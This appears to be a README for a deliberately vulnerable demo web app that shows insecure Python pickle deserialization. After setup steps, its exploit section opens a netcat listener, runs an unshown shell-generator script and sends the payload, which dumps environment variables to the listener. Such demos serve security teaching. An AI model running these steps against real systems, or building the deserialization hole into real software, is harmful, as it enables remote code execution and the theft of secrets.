 # Demo Insecure Deserialization
Demo Insecure Deserialization in Python web application using FastAPI + Async SQLAlchemy + Postgres database + Docker.

# prerequirement
This app require create postgress database before start
```
docker compose up -d --build postgres
docker compose exec -it postgres bash
createdb -h localhost -p 5432 -U dev-user ktltat_db
psql -h localhost -p 5432 -U dev-user -d ktltat_db
```

# run
Back to terminal and follow below steps:
```
docker compose up -d --build
docker compose exec ktltat_app alembic revision --autogenerate -m "initdb"
docker compose exec ktltat_app alembic upgrade head
```

![Image](images/app_login.png)

![Image](images/app_index.png)

# exploit
## Init netcat listener

```
nc -nvlp 1337 
```
![Image](images/init_netcat_listener.png)

## Get your local ip

```
ip a
note: local ip often id formated: 192.168.x.x
```
![Image](images/get_your_local_ip.png)

## Gen shell
```
note: Must change variable local_ip in shell_grenerator.py file before
python shell_grenerator.py
```
![Image](images/generate_shell.png)

## Send request attach shell
![Image](images/send_request_attach_shell.png)

## Exploit success
After send request attach shell, pickle module ran "env" command and sent output to netcat listener

![Image](images/exploit_success.png)

This is code is exploited

![Image](images/code_is_exploited.png)
